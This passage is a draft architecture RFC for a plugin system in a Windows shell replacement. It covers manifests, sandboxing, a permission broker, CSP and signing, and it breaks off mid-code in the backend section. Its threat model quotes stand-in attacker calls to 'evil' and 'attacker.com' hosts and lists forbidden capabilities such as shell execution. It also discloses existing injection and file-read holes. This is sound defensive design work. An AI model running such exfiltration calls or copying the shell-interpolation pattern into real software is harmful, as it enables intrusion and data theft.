

# Alpine Shell Plugin System — Architecture & Roadmap

> **Status:** Draft RFC · **Target:** maintainers + prospective plugin authors · **API contract:** `PLUGIN_API_VERSION = 1`
> **One-line thesis:** Turn Alpine Shell's four hardcoded UI roots and its god-preload into a *registry-driven, capability-scoped plugin platform* where a React developer ships a live topbar widget in under five minutes — without ever being able to own the user's machine.

---

## 1. Vision & Goals

Alpine Shell replaces `explorer.exe`. That makes it the most privileged surface on a Windows desktop and the most exciting canvas a hobbyist UI developer will ever get. The plugin system has to honor both facts at once: **thrilling to build on, ruthless about trust.**

### 1.1 What "very easy for developers" concretely means

| Promise | Concrete definition |
|---|---|
| **5-minute first widget** | `npm create alpine-plugin@latest` → pick *Topbar widget* → `npm run dev` → the widget is live in the running shell with hot-reload. No manual copying into `%APPDATA%`. |
| **~3 load-bearing files** | `plugin.json` (identity + declarative contributions), `src/renderer.tsx` (the component), `vite.config.ts` (one-line preset). Everything else is scaffolded. |
| **Zero Electron knowledge** | No IPC, no `ipcMain`, no `contextBridge`, no two-process mental model. The author writes a React component and a manifest. |
| **Theming "just works"** | Widgets read the host `ThemeProvider` (`useDarkText`, `useTopbarBg`) and render with the same dark/light logic as `systemTray.tsx`. |
| **One React instance** | No dual-React crashes, no importmap fragility for the author, no peer-dep hell. |
| **Familiar data pattern** | `usePluginSetting('city', 'Zurich')` mirrors `useVolume`; backend `{ handlers, start }` mirrors `electron/modules/*.js`. Learn one surface, you know both. |
| **Publish in one command** | `alpine plugin pack` → a signed `.alpineplugin` → drop on the marketplace. |

### 1.2 Non-goals (explicit)

- **Not a general untrusted-Node runtime.** A third-party plugin can *never* obtain arbitrary command execution, process spawning, UAC elevation, shell re-registration, OS/app update triggers, autostart persistence, or the ability to uninstall other software. No permission token grants any of these — they are *structurally absent* from the broker.
- **Backend code is not a malice sandbox.** A plugin backend runs full Node in a `utilityProcess`. We contain *crashes*, broker *privilege*, and cap *resources* — but we do **not** claim to contain a determined attacker inside that process. Backend-capable plugins are therefore a **higher trust tier gated behind code-signing** (§4, §6).
- **v1 is Windows-only** (the whole app is) and does **not** promise interactive, arbitrarily-styled *untrusted* topbar widgets in Phase 0–1. That capability matures across the roadmap (§4.3, §9).
- **We do not invent new persistence, HTTP, or crypto stacks.** Everything reuses `frecency.js`, `updater.js`, `scripts/publish.js`, `packages/license`, and the existing `alpine-wallpaper://` template.

---

## 2. High-Level Architecture

A plugin flows from an inert folder on disk to running pixels through six stages: **discover → validate → consent → resolve trust tier → mount surface → (optional) fork backend.** The trust tier decides *which realm* the UI runs in — this is the single most important branch in the system.



**The SDK boundary** sits *inside* whichever realm the UI runs in. In Tier A the SDK reads a host-published `window.alpine` global (one React instance). In Tier B the same SDK reads a `window.alpine` published by `pluginPreload.js` in the sandboxed frame, with theme delivered as state and `PopupMenu`/capabilities as brokered RPC. **Author code is identical across tiers; only the plumbing under the SDK differs.**

**The marketplace** (Cloudflare R2 + `apps/web`) is a downstream distribution layer that lands a signed `.alpineplugin` into the on-disk folder above — it feeds the same pipeline as a local drag-install.

---

## 3. Plugin Package Format & Manifest

### 3.1 Folder layout

A plugin is a **single self-describing folder** installed at `app.getPath('userData')/plugins/<id>/` (`%APPDATA%\Alpine Shell\plugins\<id>\`). This is the per-user, update-surviving, outside-`app.asar` tree every existing store already uses (`launcherPrefs.js`, `frecency.js`).

```
%APPDATA%\Alpine Shell\plugins\com.example.weather\
├── plugin.json          # manifest — the ONLY discovery file
├── dist\
│   ├── renderer.js      # ESM; named exports referenced by contributes.*.export
│   ├── renderer.css     # optional; injected into the plugin's surfaces
│   └── main.js          # CJS backend bundle (SIGNED plugins only)
├── assets\icon.svg
├── SIGNATURE            # Ed25519 detached signature over the package hash (marketplace)
├── README.md            # ignored by host
└── LICENSE
```

The host discovers plugins by scanning `plugins/*/plugin.json`. **The manifest is fully declarative** — the host reads every contribution, permission, and entry point *without executing a single line of plugin code*. That is a hard security requirement (§4): the consent UI and the surface registries are built from the manifest **before** any plugin code runs.

### 3.2 The `id` is load-bearing in five places

Reverse-DNS, **lowercase**, `^[a-z0-9]([a-z0-9-]*[a-z0-9])?(\.[a-z0-9]([a-z0-9-]*[a-z0-9])?)+$`. Reused as: (1) install folder name, (2) `alpine-plugin://<id>/…` protocol host, (3) server-side IPC scoping key, (4) per-plugin store dir, (5) session partition + CSP scope. Discovery **lowercase-normalizes the folder name** and rejects non-lowercase folders explicitly, so NTFS case-insensitivity never produces a confusing `id !== basename` failure.

### 3.3 Manifest field reference

| Field | Type | Req | Notes |
|---|---|:--:|---|
| `$schema` | string | – | Points at the published JSON Schema for editor autocomplete. |
| `id` | string | ✓ | Reverse-DNS lowercase; must equal the (normalized) folder name. |
| `name` | string | ✓ | Display name. |
| `version` | string | ✓ | Strict semver 2.0.0. |
| `apiVersion` | integer | ✓ | Contribution-contract version. Checked against a host **supported set**, never hard-equality (§3.5). |
| `engines.alpineShell` | semver range | – | e.g. `"^0.2.0"`, checked against `app.getVersion()`. |
| `renderer` | rel path | – | ESM renderer entry. Omit if backend-only. |
| `main` | rel path | – | CJS backend entry. **Ignored unless the plugin is signed/verified** (§6). |
| `icon` | `"assets/…"` \| `"lucide:CloudSun"` | – | Curated Lucide subset + `Plug` fallback, pinned to `apiVersion`. |
| `contributes` | object | – | Declarative surfaces (§3.4). |
| `permissions` | `PluginPermission[]` | – | Required-at-install capability tokens. |
| `optionalPermissions` | `PluginPermission[]` | – | Grantable later (web-extension style). |
| `network.connect` | string[] | – | **Validated https origins** fed into CSP `connect-src` (§4.6). |
| `author` `homepage` `repository` `license` | – | Metadata. |

**Cross-consistency validation** (in `parseManifest`, before any code loads):

- Every relative path is resolved with `fs.realpathSync` and asserted to stay within `fs.realpathSync(pluginDir)` — **realpath, not lexical `startsWith`** — and rejected if `lstat` shows a reparse point/symlink. Empty or directory-valued entry paths are rejected. This closes the junction/symlink escape the red team found in the lexical guard *and* retrofits the existing `alpine-wallpaper` handler.
- Each declared `renderer`/`main`/`icon` path must **exist** (stat check) — containment ≠ existence.
- Each `network.connect` entry must be a well-formed **https** origin (scheme + host [+ port], no path, no cleartext, no bare `*`; wildcards only as explicit `*.host`). `net:fetch` ⇔ `network.connect` presence is cross-checked.
- `permissions` are validated against the **single-source** allowlist (§3.6).

### 3.4 Contributions — declarative, `export`-bound

Contributions are declared in the manifest and each names an `export` string that the host looks up on the lazily-imported bundle. This is the authoritative discovery path (review-before-execute). On lazy import the host **verifies every referenced export exists** and surfaces a clear Plugins-page error otherwise. An optional `activate(ctx)` named export is the escape hatch for dynamic contributions.

```ts
interface PluginContributions {
  topbarWidgets?:    TopbarWidgetContribution[]   // export, slot, order?, displayScope?, since?
  desktopWidgets?:   DesktopWidgetContribution[]   // export, defaultSize, minSize, displayScope?, since?
  settings?:         PluginSettingContribution[]   // key, type:'toggle'|'select'|'slider', label, info?, default, options? | min, max, step?, unit?
  settingsPages?:    SettingsPageContribution[]    // export?, label, icon?, path?, topLevel?, since?
  launcherCommands?: LauncherCommandContribution[] // kind:'action'|'provider', export, since?
  backendModules?:   BackendModuleContribution[]   // export (SIGNED only), since?
}
```

`settings` are declarative: the host stores each plugin's values in `plugin-settings.json` under
userData, draws them as rows in the plugin's Ridge callout and on its settings page, and hands them
to the plugin through `usePluginSetting(pluginId, key)` in the renderer and `ctx.settings.get(key)` /
`ctx.settings.onChange(listener)` in the backend. A plugin with `settings` or `settingsPages` gets a
page at `plugins/<id>` in the settings window; `settingsPages[0]` names it, `export` renders a
component from the renderer module below the rows, and `topLevel: true` adds it to the sidebar.

Every contribution carries an optional `since: apiVersion`. The host mounts a contribution only when `since ≤ PLUGIN_API_VERSION`, so **additive SDK growth never strands old plugins** and a plugin using only stable surfaces keeps loading on a newer host.

### 3.5 Two compatibility gates (neither is hard-equality)

| Gate | Type | Check | Fail state |
|---|---|---|---|
| `engines.alpineShell` | semver range vs `app.getVersion()` | soft app-version gate | not loaded, reason surfaced in Plugins page |
| `apiVersion` | integer ∈ host `SUPPORTED_API_VERSIONS` | contract gate | not loaded, "requires newer Alpine" |

`SUPPORTED_API_VERSIONS` is a **set/window**, not a single value. Shipping API v2 keeps v1 plugins loading; a surface is only withheld if its `since` exceeds the host.

### 3.6 Where the contract lives — one source of truth

The permission enum, id pattern, `satisfiesRange`, and `PLUGIN_API_VERSION` are a **security allowlist**. Hand-duplicating them in a TS SDK and a CJS validator (as the raw facet designs did) is the single worst convention break — silent drift means a token in the union but not the Set is *rejected at runtime*, and a token dropped from the union but left in the Set is *accepted with no enforcement*. **Resolution:**

> `packages/plugin-sdk` is a **dual-built** workspace (tsup → ESM + **CJS** + `.d.ts`), so the main process and the renderer share one build. The CommonJS main process `require('@alpine/plugin-sdk')` and gets the **exact same** `PLUGIN_PERMISSIONS`, `PLUGIN_ID_PATTERN`, `satisfiesRange`, `SUPPORTED_API_VERSIONS` that the Vite renderer and third-party authors import. `apps/desktop/electron/pluginManifest.js` is a thin *validator* over those imported constants — it never re-declares them. A CI parity test asserts the JSON-Schema permission list equals the exported union.

`window.alpine` / `window.alpinePlugin` / `window.shell.plugins` augmentations live in `src/types/shell.d.ts` (per CLAUDE.md) and *reference* SDK types. The shared data contract lives in the SDK, which is the one place both processes and third-party authors import it from.

### 3.7 Complete example — Weather (renderer-only, no backend)

```jsonc
{
  "$schema": "https://alpine.dev/schemas/plugin-v1.json",
  "id": "com.example.weather",
  "name": "Weather",
  "version": "0.1.0",
  "apiVersion": 1,
  "engines": { "alpineShell": "^0.2.0" },
  "description": "Current conditions in your topbar.",
  "author": { "name": "Example", "url": "https://example.dev" },
  "icon": "lucide:CloudSun",
  "renderer": "dist/renderer.js",
  "contributes": {
    "topbarWidgets":  [{ "export": "TopbarWeather", "slot": "right", "order": 20, "displayScope": "primary" }],
    "settingsPages":  [{ "export": "WeatherSettings", "label": "Weather", "icon": "lucide:CloudSun", "topLevel": true }],
    "launcherCommands": [{ "kind": "action", "export": "refreshCommand", "title": "Refresh weather", "keywords": ["weather", "refresh"] }]
  },
  "permissions": ["storage", "location:coarse", "net:fetch"],
  "network": { "connect": ["https://api.open-meteo.com"] }
}
```

The weather fetch happens in the plugin's **own renderer**, constrained by CSP `connect-src` to `api.open-meteo.com` and nothing else — **no backend, no signing, no Node**. This is the elegant common case: most plugins need zero backend.

### 3.8 Distribution artifact

A distributable plugin is a ZIP named `<id>.alpineplugin` whose **root** is `plugin.json`. The extract spec **mandates per-entry zip-slip guards** (reject `..`, absolute, and symlink entries) — the same containment the runtime enforces. First-party examples may ship read-only via electron-builder `extraResources → resources/plugins/<id>/`; the protocol handler falls back to `process.resourcesPath` when the userData copy is absent.

---

## 4. Capability, Permission & Security Model

This is the section the maintainer must not skim. Alpine Shell *is* the shell — a compromised plugin runs inside the primary desktop. The whole design flows from one invariant.

### 4.1 Threat model

**Assets:** the machine (no arbitrary code/command execution, no elevation, no persistence), the user's data (files, credentials, telemetry exfiltration), other plugins' data, and Alpine's own integrity (it must remain un-uninstallable and un-de-registerable by a plugin).

**Adversary:** a plugin is *untrusted third-party code shipped as data*. It will try `import('https://evil/x.js')`, `history.pushState('','','?pluginId=<victim>')`, an NTFS junction inside `dist/`, a `manifest.json` rewrite, a redirect through an allow-listed origin, and a raw `require('net').request(...)` from any backend it can get forked.

**The dangerous truth about today's codebase** (all grounded in real files): **one preload for every window.** `electron/preload.js` loads into all five window types and injects `window.shell` — including `run.exec`/`run.execTerminal` (arbitrary command execution), `system.powerAction`, `setup.setShell`/`revertShell`/`uninstall`, `apps.uninstall`, `apps.launchAdmin`, `updates.install`, `tray.click` — with **no sender scoping** (`ipc.js` registers every handler on the global `ipcMain`; exactly one handler, `topbar/set-active-region` at `main.js:256`, checks the sender). There is **no CSP and no navigation lockdown** anywhere.

### 4.2 The core invariant

> **Untrusted plugin code MUST NEVER execute in a renderer that has `preload.js` loaded.** In that realm a single `import()` reaches `window.shell.run.exec` and the machine is owned. JavaScript cannot grant a capability to host code while hiding it from other code in the same realm — freezing globals fails because built-ins (e.g. `launcherPanel.tsx` calling `window.shell.run.exec(query)`) read `window.*` lazily in event handlers, not just at boot.

Therefore untrusted UI runs in a **separate `webContents` with a separate preload** (`pluginPreload.js`) exposing only `window.alpinePlugin`. This directly bounds the in-process loader to *trusted* code only.

### 4.3 Two-tier trust model (the reconciliation)

The topbar is a transparent 24px window with a **single** shared chrome surface (`chromeStore` holds one `current`) and context-based theming (`ThemeProvider`) and main-process cursor-region tracking. A `WebContentsView` paints an opaque rectangle and cannot be composited into that bar with a working dropdown; React context does not cross the boundary. So we cannot both (a) isolate untrusted code *and* (b) give it arbitrary interactive topbar React — not without a compositor. We resolve this explicitly rather than deferring it:

| Tier | Who | Realm | Gets `window.shell`? | Topbar story |
|---|---|---|---|---|
| **A — Trusted** | First-party, **signed** marketplace publishers, and **local dev-link** (author's own machine) | In-process, shared React realm via `alpine-plugin://` `import()` | Yes — it *is* the app / is signed | Full interactive React widgets + `PopupMenu` |
| **B — Untrusted** | Unsigned / sideloaded / unreviewed | Out-of-realm sandboxed `WebContentsView` (topbar/desktop) or child `BrowserWindow` (settings) + `pluginPreload.js` | **Never** | **Declarative** widget (icon/text/badge + click-opens-panel, rendered by trusted host from a plugin state channel); rich interactive React only in child-window settings pages & self-contained desktop rectangles |

This matures across the roadmap: **Phase 0–1 ship Tier A only and are gated to trusted/first-party/dev code** ("do not install untrusted plugins yet"). **Phase 2 builds the Tier B boundary** — sandbox, `pluginPreload`, broker, CSP — which is what makes untrusted third-party safe. **Phase 3 adds signing + marketplace supply chain.** We *admit* isolation does not exist in Phase 0–1 and gate accordingly, instead of pretending an in-process loader can host untrusted code.

### 4.4 Isolation mechanisms (Tier B)

| Concern | Mechanism |
|---|---|
| Renderer sandbox | `sandbox: true` (explicit), `contextIsolation: true`, `nodeIntegration: false`, `webSecurity: true` |
| Preload | `preload: electron/pluginPreload.js` — exposes only `window.alpinePlugin`; **no raw `ipcRenderer`** |
| Storage isolation | dedicated `session.fromPartition('persist:plugin-<id>')`, cleared + deleted on uninstall |
| Embedding | `WebContentsView` (topbar/desktop, positioned from main); child `BrowserWindow` (settings). Each has its own `webContents`, so host `window.shell` is absent |
| Navigation | `setWindowOpenHandler(() => ({action:'deny'}))`; `will-navigate` locked to `alpine-plugin://<id>/`; `will-attach-webview` denied |
| Web permissions | `setPermissionRequestHandler`, `setPermissionCheckHandler`, `setDevicePermissionHandler` **all deny by default** |
| CSP | strict, injected via `onHeadersReceived` on the partition; scheme registered **without `bypassCSP`** (§4.6) |

### 4.5 The capability broker — deny-by-default, adapters not passthrough

A plugin never touches host modules directly. It calls `window.alpinePlugin.invoke(action, payload)` → one validated channel `plugins/invoke`. **Identity is derived server-side from `event.sender.id`** (a grant recorded at surface creation), never from anything the renderer sends.

```js
// electron/pluginHost.js
ipcMain.handle('plugins/invoke', async (event, message) => {
  const grant = grantsByWebContents.get(event.sender.id)
  if (!grant) return { ok: false, error: 'not-a-plugin' }
  const route = capabilityRoutes[message && message.action]
  if (!route) return { ok: false, error: 'unknown-action' }
  if (!grant.permissions.has(route.permission)) return { ok: false, error: 'denied', permission: route.permission }
  if (route.confirm && !(await confirmEffect(grant, route, message.payload))) return { ok: false, error: 'user-blocked' }
  try { return { ok: true, data: await route.run(grant, message.payload) } }
  catch (e) { return { ok: false, error: String((e && e.message) || e) } }
})
```

**Critical fix over the naive design: routes are NOT passthroughs to existing `module.handlers`.** The red team proved that routing `control:network → network.handlers['network/wifi-connect']` is silent RCE, because `network.js` builds `netsh wlan connect name="${ssid}"` by shell-string interpolation. Every route is therefore a **thin, separately-audited adapter** that (a) validates/normalizes the payload and (b) uses `execFile` with an argv array or a native/WinRT call — **never a shell string built from plugin input** — and never assumes `event.sender` is a `BrowserWindow`:

```js
// electron/pluginBridge.js — every route is audited; absence = permanently unreachable
const capabilityRoutes = {
  'volume.get':   route('read:volume',    (g)    => volume.getVolume()),
  'volume.set':   route('control:volume', (g, v) => volume.setVolume(clamp01(v))),
  'media.control': route('control:media',  (g, a) => mediaSession.control(assertTransport(a))),
  'wifi.connect': route('control:network', (g, p) => network.connectSafe(validateSsid(p.ssid), p.password), { confirm: true }),
  'power.action': route('control:power',   (g, a) => power.performAction(assertPowerAction(a)), { confirm: true }),
}
```

Privileged first-party modules must **export named pure functions** (`volume.setVolume`, `power.performAction`, `network.connectSafe`) that both their ipc handler and the broker call — so the bridge never fakes a null ipc `event` or reaches into another module's handler map by string key. `network.connectSafe` is the rewrite of `wifiConnect` to `execFile` args + a validated-SSID profile: **until it exists, `control:network` is FORBIDDEN.**

### 4.6 CSP for Tier B UI

The `alpine-plugin://` scheme is registered privileged (`standard, secure, supportFetchAPI, corsEnabled, stream`) but — unlike `alpine-wallpaper` — **without `bypassCSP`**, so the CSP binds. The handler is **realpath-confined** to the plugin dir and sets explicit MIME (`Content-Type: text/javascript` — required or the browser rejects the ESM module) + `Access-Control-Allow-Origin: *`.

```
default-src 'none';
script-src 'self' alpine-plugin:;
style-src  'self' 'unsafe-inline';
img-src    'self' alpine-plugin: data:;
connect-src <validated manifest.network.connect hosts, else 'none'>;
frame-src  'none';
```

### 4.7 Permission tiers & the FORBIDDEN class

| Tier | Grant policy | Tokens |
|---|---|---|
| **Auto** | none | `storage`, `clock`, `theme` |
| **Read** (T1) | install consent, silent after | `read:volume`, `read:brightness`, `read:media`, `read:network`, `read:bluetooth`, `read:battery`, `read:apps`, `read:windows`, `read:system-info`, `net:fetch`, `location:coarse`, `notifications` |
| **Control** (T2) | install consent | `control:volume`, `control:brightness`, `control:media`, `control:wallpaper`, `control:windows` |
| **Sensitive** (T3) | install consent **+ native confirm every call** | `control:power`, `control:network`†, `control:bluetooth`, `launch:apps` |
| **`node`** | scary consent, **signed publishers only** | fork a `utilityProcess` backend (§6) |
| **FORBIDDEN** | *no token exists* | see below |

† only once `network.connectSafe` lands.

**What a plugin can NEVER do — no token grants it, permanently absent from `capabilityRoutes`:** run shell commands / spawn processes (`run.exec`, `run.execTerminal`), run elevated (`apps.launchAdmin`), change the Windows shell registration or uninstall/relaunch Alpine or restart Windows (`setup.*`), trigger app or OS updates (`updates.*`, `windowsUpdate.*`), write autostart/persistence (`apps.setStartup`), uninstall other apps (`apps.uninstall`), kill arbitrary processes / close arbitrary windows (`apps.endTask`, `closeWindow`), click real tray icons (`tray.click` — impersonation), read arbitrary files (`fs` is not bridged; `alpine-plugin://` is realpath-confined), reach `window.shell`/`window.setup`/`window.alpineBoot`, get Node in the renderer, read/write another plugin's storage or session, or connect outside its `net:connect` allowlist.

### 4.8 Server-side identity for events & storage

Never derive a channel or a storage key from the renderer.

- **Events:** the supervisor/broker **target-sends** `plugin/<action>` (**id-less**) *only* to the owning plugin's `webContents` (looked up in the grants map). The preload subscribes to the id-less channel; delivery is scoped by `webContents`, not by a guessable channel name. **`ipc.js broadcast()` is never used for plugin events** (it hits all windows → cross-plugin eavesdropping).
- **Storage:** `plugins/storage-get`/`-set` derive `pluginId` from `event.sender`, ignore any renderer-supplied id, and key `plugins/<id>/store.json` by the resolved id.
- **Launcher `run()` and backend `ctx`** are bound to the resolved `pluginId` **at registration via closure** (neither runs inside a React tree, so React-context scoping is unusable).

### 4.9 Consent, revocation & the deep link

On install `pluginRegistry` parses + verifies the manifest and opens `pluginConsentDialog.tsx`: each requested permission renders from `PERMISSION_META` (plain-language label + description + risk badge), plus a **data-flow line** (which `read:*` scopes can leave to which `net:connect` host), the publisher-verification banner, and the host allowlist. Only on **Grant** are tokens written to `pluginRegistry.json` and passed to `grantPlugin(webContents, id, permissions)`.

- **`installStaged` defaults `enabled:false`** and takes the granted set **from the consent**, never blindly from `manifest.permissions`.
- **New permissions on update ⇒ re-consent** (updater diffs granted vs requested, blocks activation until approved).
- **Per-permission revocation** mutates the live `grantsByWebContents` set — a running plugin loses access immediately.
- **T3 just-in-time confirm** renders the *concrete effect + target* ("Shut down this PC now?", 'Join Wi-Fi "HomeNet"?'), is **rate-limited per plugin**, and offers "block and don't ask again" — never a raw `action` string, never spammable into a shell freeze.
- **The `alpine-shell://install-plugin` deep link NEVER auto-installs.** It only focuses the Settings window on the marketplace detail page; a real user click + the consent modal are required. A drive-by web page cannot install anything.

### 4.10 Code signing & publisher verification

Marketplace packages are signed **Ed25519** (detached signature over the package SHA-256), verified against a **bundled `MARKETPLACE_PUBLIC_KEY`** — the same "constant baked in + pure `verify`" pattern `packages/license` already uses. Verified at install **and every load** (marketplace authenticity + tamper detection). Sideloaded plugins are permitted for development but marked **Unverified** and **capped at Tier B, no `node`, no backend, no auto-enable**. Signing is **MVP, not v2**, for anything that ships a `main` or lists in the store: unsigned code that runs as the user's shell is an unacceptable supply-chain surface.

### 4.11 Defense-in-depth on the *existing* windows

The largest pre-existing hole is orthogonal to plugins: an XSS in a first-party renderer already reaches `window.shell.run.exec`. As part of this work we ship, on the existing desktop/topbar/settings/screenshot/setup windows: a strict CSP via `onHeadersReceived`, `setWindowOpenHandler(deny)`, and `will-navigate` lockdown; we harden the `alpine-wallpaper` handler (`main.js:501-515`) with realpath confinement (it currently `net.fetch`es any absolute image path — arbitrary file read); and we replace the by-absence `isTrustedSender` with a **positive** trusted-`webContents` registry populated at first-party window creation, guarding the legacy `run/exec`, `system/power-action`, `setup/*` handlers.

---

## 5. Renderer Contribution Model & UI Slot Refactors

Turn the four static composition roots (`topBar.tsx`, `settingsApp.tsx`, `launcherPanel.tsx`, `DesktopApp`) into registry-driven slots.

### 5.1 The contribution registry

`src/plugins/contributionRegistry.ts` holds four arrays, exposes `register*` (each returns an unregister fn), and `useSyncExternalStore`-based hooks so host roots re-render exactly when plugins load/unload:

```ts
export function useTopbarWidgets(slot: TopbarSlot) {
  const all = useSyncExternalStore(subscribeContributions, () => store.topbar)
  return useMemo(() => all.filter((w) => w.slot === slot).sort(byOrder), [all, slot])
}
```

The host **assigns `pluginId`** and namespaces every contribution id/path — the renderer never trusts a plugin-claimed id:

```ts
registerTopbarWidget: (c) => track(register({ ...c, id: `${meta.id}:${c.id}` })),
registerSettingsPage: (c) => track(register({ ...c, path: `plugin/${meta.id}/${c.path}` })),
```

### 5.2 Sharing one React instance (Tier A) — done correctly

The host publishes React **once** before any plugin loads. The SDK's `@alpine/plugin-sdk/react` and `/jsx-runtime` subpaths **bind real values at module-eval time** (not hand-enumerated Proxies — the red team proved Proxy shims break named imports and `<>…</>` because `Fragment` must be the real symbol by identity):

```ts
// packages/plugin-sdk/src/jsxRuntime.ts — real values, not proxies
const rt = getHost().jsxRuntime
export const { jsx, jsxs, Fragment } = rt
```

`react`, `react-dom`, and `react/jsx-runtime` are **externalized** in the plugin build and resolved at runtime via an **import-map** injected into the host `index.html` that maps them to host-served ESM modules statically re-exporting the host copies (generated from React's actual export list). This yields one instance and **full named-export coverage** — including `react-dom` (`createPortal`, which the host `PopupMenu` needs). Each SDK hook reads `getHost()` **lazily inside the call** (never destructured at module top) so StrictMode double-mount and hot-reload re-import races can't hard-fail with "host bridge missing." A CI smoke plugin renders a fragment + a hook + a `PopupMenu` and asserts it mounts.

For Tier B the same SDK reads a `window.alpine` published by `pluginPreload.js` in the sandboxed frame; theme arrives as postMessage state surfaced through `useTopbarTheme()`, and `PopupMenu` becomes an RPC asking the host to open a chrome surface. **Author code is identical.**

### 5.3 Topbar — concrete `topBar.tsx` edits

Built-ins stay static; a slot drops into each cluster. Widgets that need overflow **must** use the SDK `PopupMenu` (the transparent 24px bar cannot DOM-overflow; `chromeStore` allows one surface). The slot applies per-display gating (mirroring `systemTray.tsx:83`, `MY_DISPLAY_ID === primaryDisplayId`) and wraps each widget in a `PluginErrorBoundary` (mirroring `TrayErrorBoundary`).

```diff
  <div className="flex items-center gap-1 mr-1 relative z-1 self-stretch">
    <SystemTray /><MediaStatus /><MicrophoneStatus /><StatusIndicator />
+   <TopbarPluginSlot slot="right" />
    <Clock />
  </div>
```

```tsx
// src/components/topbar/topbarPluginSlot.tsx
export function TopbarPluginSlot({ slot }: { slot: TopbarSlot }) {
  const widgets = useTopbarWidgets(slot)
  const primary = usePrimaryDisplay()
  return (
    <>
      {widgets.map((w) =>
        w.displayScope === 'primary' && !primary ? null : (
          <PluginErrorBoundary key={w.id} id={w.id}>
            <PluginSurface contribution={w} />
          </PluginErrorBoundary>
        ),
      )}
    </>
  )
}
```

### 5.4 Settings — concrete `settingsApp.tsx` edits

The three static tables become derived. Crucially `PageRouter` must **subscribe** to the registry (`useSettingsPages()`), not do a plain module read, so an async-activated plugin page (deep-linked via `windows.initialPage`) renders when it registers instead of returning a permanent blank; plugin paths show a loading state until bootstrap resolves.

```diff
- const NAV = [ /* lines 28-35: hardcoded built-ins */ ]
+ function useNav() {
+   const pages = useSettingsPages()
+   return useMemo(() => [...BUILTIN_NAV, ...pages.filter((p) => p.topLevel).map(toNavItem)], [pages])
+ }
```

```diff
  function PageRouter({ path }: { path: string }) {
+   const pages = useSettingsPages()
    if (path === 'appearance') return <AppearancePage />
    // …built-in if-chain (lines 187-207)…
-   return null
+   const hit = pages.find((p) => p.path === path)
+   if (hit) return <PluginSurface contribution={hit} navigate={onSettingsNavigate} />
+   if (path.startsWith('plugin/')) return <PluginPageLoading />
+   return null
  }
```

```diff
- const SEGMENT_LABELS = { /* lines 209-228 */ }
+ function segmentLabel(seg: string, pages: SettingsPageContribution[]) {
+   return BUILTIN_SEGMENT_LABELS[seg] ?? pages.find((p) => p.path.endsWith(seg))?.label ?? seg
+ }
```

Plugin pages live under `plugin/<id>/…` and reuse the existing string-path history stack, deep-link, and `onSettingsNavigate` — **zero new routing work**.

### 5.5 Desktop & launcher

- **Desktop:** greenfield `desktopWidgetHost.tsx` drag/resize layer inside `DesktopApp`, backed by a new CommonJS `electron/modules/desktopWidgets.js` layout store built on the **`frecency.js`** template (atomic tmp+rename, debounce, `.bak` recovery) — **not** the naive `launcherPrefs.js writeFileSync`. `DesktopWidgetContribution` carries a `displayScope` and the layout is keyed **per display** (one desktop window per monitor), fixing the duplicate-render/shared-key bug.
- **Launcher:** because the "one activation case" is really a 5-site, index-fragile edit in a 1907-line file (budget `useMemo`, offset chain, `selectedEntry` union, Enter switch, render list), we do the **`LauncherResultProvider` refactor** — a generic `{ id, query(q), results:[{title,score,onActivate}] }` provider that folds math/map/run/apps/settings *and* plugin commands into one source. This is what plugins actually need and it collapses the fragile hand-math.

Every plugin subtree is wrapped in a `PluginErrorBoundary`; note the boundary catches render errors only — async effects/timers are contained by per-plugin teardown enforcement and (Tier B) the process/watchdog, not the boundary.

---

## 6. Backend Plugin Model & Isolation

### 6.1 Default is renderer-only

No `main` in the manifest → nothing is forked. Most contributions (clock, theme, CSS-limited network widgets) need no backend, so the common path is zero-overhead and needs no signing.

### 6.2 When a backend exists

- It is **reserved for signed / verified publishers** and requires the scary `node` consent (§4.10). Unsigned/sideloaded plugins may ship a `main`, but it is **ignored** until the plugin is verified.
- It runs in a **dedicated `utilityProcess` child** (one per plugin), **never `require()`'d into main** — `require()` would hand untrusted code koffi FFI, `child_process`, `ipcMain`, `BrowserWindow`, and the privileged protocol handlers with full authority.

### 6.3 The honest threat framing

> `utilityProcess.fork` is a **fault-isolation** boundary, **not a malice-isolation** boundary. The child is a full Node environment with `require('net' | 'fs' | 'child_process')`. Node's permission model does **not** cover sockets, so a malicious backend can `require('https').request('https://attacker.com', …)` and exfiltrate regardless of `manifest.network`. **`manifest.network` is advisory-for-good-actors, not a security control.** This is precisely why backend is signing-gated: we trust the publisher, and we contain crashes, broker privilege, and cap resources — we do not claim to contain a determined attacker inside their own signed process.

### 6.4 Preserved-but-safer module contract

```js
// plugins/com.example.weather/dist/main.js — CJS, no comments per convention
let cache = null
module.exports = {
  handlers: {
    'weather/current': async () => cache,
  },
